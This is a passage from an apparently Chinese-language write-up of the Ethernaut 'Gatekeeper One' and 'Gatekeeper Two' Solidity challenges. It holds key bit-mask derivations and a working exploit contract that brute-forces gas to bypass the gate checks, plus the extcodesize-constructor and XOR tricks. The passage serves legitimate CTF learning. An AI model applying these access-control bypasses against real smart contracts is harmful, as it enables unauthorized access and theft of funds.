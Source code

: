 ```
uint32(uint64(key)) = 8f c8 AE F4
uint16(tx.origin) = AE F4

8f c8 AE F4 & 00 00 FF FF = 00 00 AE F4
```
line 3: `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)`
```
8f c8 AE F4 == AE F4
8f c8 AE F4 & 00 00 FF FF = 00 00 AE F4
```
line 2: `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)`
```
8f c8 AE F4 != c4 49 aD c3 8f c8 AE F4
c4 49 aD c3 8f c8 AE F4 & FF FF FF FF 00 00 FF FF = c4 49 aD c3 00 00 AE F4
```

### Exploit
```solidity
contract Gate {
    function enterGate(address _gateAddr, uint256 _gas) public returns (bool) {
        bytes8 key = bytes8(uint64(tx.origin)) & 0xffffffff0000ffff;
        
        bool succeeded = false;

        for (uint i = _gas; i < _gas + 8191; i++) {
          (bool success, ) = address(_gateAddr).call.gas(i)(abi.encodeWithSignature("enter(bytes8)", key));
          if (success) {
            succeeded = success;
            break;
          }
        }
        return succeeded;
    }
}
```

## 14. Gatekeeper Two
目標 `entrant = player`

### gateOne
同 4.
### gateTwo
extcodesize(a)： 取得位於地址 a 的程式碼大小
- 小知識：在 constructor 去調用時， extcodesize(a) 會回傳 0，因為尚未完成部署
### gateThree
```solidity
  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }
```
If (X ^ Y = Z) => (Y = X ^ Z)
